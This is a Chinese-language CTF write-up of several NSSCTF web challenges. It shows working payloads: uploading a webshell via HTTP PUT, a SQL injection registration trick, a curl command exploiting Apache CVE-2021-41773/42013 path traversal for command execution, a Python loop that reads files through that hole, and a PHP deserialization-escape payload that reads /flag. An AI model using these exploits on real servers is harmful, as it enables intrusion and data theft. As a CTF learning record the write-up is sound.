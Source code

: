 ## Round#1

### basic_check



这题的wp说可以看到OPTIONS请求(我没看到)

> **OPTIONS请求**
>
> 1、获取服务器支持的HTTP请求方法；
>
> 2、用来检查服务器的性能。例如：[AJAX](https://so.csdn.net/so/search?q=AJAX&spm=1001.2101.3001.7020)进行跨域请求时的预检，需要向另外一个域名的资源发送一个HTTP OPTIONS请求头，用以判断实际发送的请求是否安全。

```shell
xiaolei@xl-pc:~$ curl -i -X OPTIONS "http://1.14.71.254:28294/index.php"
HTTP/1.1 200 OK
Date: Sun, 07 Aug 2022 06:52:04 GMT
Server: Apache/2.4.38 (Debian)
DAV: 1,2
DAV: <http://apache.org/dav/propset/fs/1>
MS-Author-Via: DAV
Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,PUT,LOCK,UNLOCK
Content-Length: 0
```

发现支持**PUT**请求，**PUT请求**是可以直接写马的
![image-20220807150009574](D:\Typora\note\CTF\web\NSSCTF.assets\image-20220807150009574.png)

访问1.php就可以随意RCE了



### sql_by_sql



有个注册面板，很显然要以admin登录才能进行下一步
注册**admin'--+**，然后修改密码，改完密码以admin登录
有一个查询面板，sqlmap注入之后发现是`SQLite`数据库
直接sqlmap一把梭了，也没做过这种数据库的题



## Round#4

### 1zweb



环境有个读取文件的功能
显然是由于没有过滤，可以直接读**/flag**



### ez_rce



ez但不ez☹️
打开页面只有一个**It works**
抓包 扫端口都是什么都没发现
只好去百度一下**It works**，发现是**apache**搭建成功的页面
![image-20220804091405205](D:\Typora\note\CTF\web\NSSCTF.assets\image-20220804091405205.png)

看下apache的版本，百度一下就能发现这个版本有个文件读取和目录穿越的洞
[CVE-2021-41773和CVE-2021-42013漏洞分析](https://xz.aliyun.com/t/10359)
网上流传的payload

```sh
xiaolei@xl-pc:~/web$ curl -X POST -d "echo;whoami" http://1.14.71.254:28226//cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
daemon
```

成功回显

然后ls发现了一个**flag_is_here**，cat死活cat不出来！！也没报错说是文件夹
然后

```sh
xiaolei@xl-pc:~/web$ curl -X POST -d "echo;find / -name "flag*"" http://1.14.71.254:28226//cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
```

![image-20220804095859584](D:\Typora\note\CTF\web\NSSCTF.assets\image-20220804095859584.png)

果然是个文件夹.....
把回显输出到文件里面

```sh
xiaolei@xl-pc:~/web$ curl -X POST -d "echo;find / -name "flag*"" http://1.14.71.254:28226//cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh > /home/xiaolei/web/flag.txt
```

前面有几个带flag，但很显然不是的，先删了
然后写开始py

```python
import os

f=open('/home/xiaolei/web/note.txt')
text=f.readlines()
f.close
j=0
for line in text:
    os.system(f'curl -X POST -d "echo;cat {line}" http://1.14.71.254:28430/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh > /home/xiaolei/web/flag.txt')
    f=open('/home/xiaolei/web/flag.txt')
    print(j)
    j+=1
    data=f.read()
    f.close
    if 'Fake Flag' in data:
        1
    else :
        break
```

官方WP是用bp暴力破解的，这样快多了...我写的时候,不会多线程,脚本跑了15分钟才在9088个跑出flag

![image-20220804100134874](D:\Typora\note\CTF\web\NSSCTF.assets\image-20220804100134874.png)



## prize



### prize_p5

直接给出源码

```php
<?php
error_reporting(0);

class catalogue{
    public $class;
    public $data;
    public function __construct()
    {
        $this->class = "error";
        $this->data = "hacker";
    }
    public function __destruct()
    {
        echo new $this->class($this->data);
    }
}
class error{
    public function __construct($OTL)
    {
        $this->OTL = $OTL;
        echo ("hello ".$this->OTL);
    }
}
class escape{                                                                   
    public $name = 'OTL';                                                 
    public $phone = '123666';                                             
    public $email = 'sweet@OTL.com';                          
}
function abscond($string) {
    $filter = array('NSS', 'CTF', 'OTL_QAQ', 'hello');
    $filter = '/' . implode('|', $filter) . '/i';
    return preg_replace($filter, 'hacker', $string);
}
if(isset($_GET['cata'])){
    if(!preg_match('/object/i',$_GET['cata'])){
        unserialize($_GET['cata']);
    }
    else{
        $cc = new catalogue(); 
        unserialize(serialize($cc));           
    }    
    if(isset($_POST['name'])&&isset($_POST['phone'])&&isset($_POST['email'])){
        if (preg_match("/flag/i",$_POST['email'])){
            die("nonono,you can not do that!");
        }
        $abscond = new escape();
        $abscond->name = $_POST['name'];
        $abscond->phone = $_POST['phone'];
        $abscond->email = $_POST['email'];
        $abscond = serialize($abscond);
        $escape = get_object_vars(unserialize(abscond($abscond)));
        if(is_array($escape['phone'])){
        echo base64_encode(file_get_contents($escape['email']));
        }
        else{
            echo "I'm sorry to tell you that you are wrong";
        }
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

类里面并没有可以利用的地方，所以唯一可以利用的就是**file_get_contents**，利用它来读取文件
**abscond**函数里面的替换加上**emai**l中对flag的过滤，很容易让人想到利用反序列化逃逸来构造一个值为`/flag`的`email`
经过构造
序列化后的值

```php
O:6:"escape":3:{s:4:"name";s:3:"OTL";s:5:"phone";a:3:{i:0;s:1:"1";i:1;s:1:"2";i:2;s:60:"CTFCTFCTFCTFCTFCTFCTFCTFCTFhello";}s:5:"email";s:5:"/flag";}";}s:5:"email";s:3:"123";}
```

替换后的值

```php
O:6:"escape":3:{s:4:"name";s:3:"OTL";s:5:"phone";a:3:{i:0;s:1:"1";i:1;s:1:"2";i:2;s:60:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";}s:5:"email";s:5:"/flag";}";}s:5:"email";s:3:"123";}
```

反序列化后的值

```php
class escape#2 (3) {
  public $name =>
  string(3) "OTL"
  public $phone =>
  array(3) {
    [0] =>
    string(1) "1"
    [1] =>
    string(1) "2"
    [2] =>
    string(60) "hackerhackerhackerhackerhackerhackerhackerhackerhackerhacker"
  }
  public $email =>
  string(5) "/flag"
}
```

最终的payload

```php
GET:
?cata=1
POST:
name=OTL&phone[0]=abc&phone[1]=def&phone[2]=CTFCTFCTFCTFCTFCTFCTFCTFCTFhello";}s:5:"email";s:5:"/flag";}&email=123
```





